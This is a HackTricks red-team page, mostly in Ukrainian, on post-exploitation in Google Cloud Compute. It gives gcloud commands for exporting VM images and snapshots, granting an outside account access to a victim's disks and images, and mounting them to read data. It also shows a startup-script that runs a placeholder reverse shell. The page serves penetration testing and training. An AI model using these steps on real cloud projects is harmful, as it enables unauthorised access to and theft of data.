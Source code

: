 # GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Для отримання додаткової інформації про Compute та VPC (мережі) перегляньте:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Експорт та перевірка зображень локально

Це дозволить зловмиснику **отримати доступ до даних, що містяться в уже існуючих зображеннях** або **створити нові зображення працюючих ВМ** та отримати доступ до їхніх даних без доступу до працюючої ВМ.

Можливо експортувати зображення ВМ у бакет, а потім завантажити його та змонтувати локально за допомогою команди:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Для виконання цієї дії зловмиснику можуть знадобитися привілеї над сховищем, а також, безумовно, **привілеї над cloudbuild**, оскільки це **сервіс**, який буде запитаний для виконання експорту\
Більше того, для цього кодування SA та SA обчислень потрібні привілейовані дозволи.\
SA cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` потрібні:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

А SA `<project-id>-compute@developer.gserviceaccount.com` потрібні:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Експорт та перевірка знімків та дисків локально

Неможливо безпосередньо експортувати знімки та диски, але можливо **перетворити знімок у диск, диск в образ** і, слідуючи **попередньому розділу**, експортувати цей образ для перевірки його локально

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Інспекція зображення, створюючи VM

З метою доступу до **даних, збережених у зображенні** або всередині **працюючої VM**, з якої зловмисник **створив зображення,** можливо надати зовнішньому обліковому запису доступ до зображення:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
і потім створити нову VM з цього:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Якщо ви не могли надати доступ до вашого зовнішнього облікового запису через образ, ви могли б запустити ВМ, використовуючи цей образ у проекті жертви, і **змусити метадані виконати зворотне з'єднання** для доступу до образу, додавши параметр:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

З метою доступу до **даних, збережених на диску або знімку, ви можете перетворити знімок на диск, диск на образ і слідувати попереднім крокам.**

Або ви можете **надати зовнішньому обліковому запису доступ** до диска (якщо початковою точкою є знімок, надайте доступ до знімка або створіть диск з нього):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Прикріпіть диск** до екземпляра:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Монтуйте диск всередині VM:

1.  **SSH до VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Визначте диск**: Після входу в VM визначте новий диск, перерахувавши пристрої дисків. Зазвичай ви можете знайти його як `/dev/sdb`, `/dev/sdc` тощо.
3. **Форматування та монтування диска** (якщо це новий або сирий диск):
*   Створіть точку монтування:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Замонтуйте диск:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Якщо ви **не можете надати доступ до зовнішнього проекту** до знімка або диска, вам, можливо, потрібно буде **виконати ці дії всередині екземпляра в тому ж проекті, що й знімок/диск**.

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

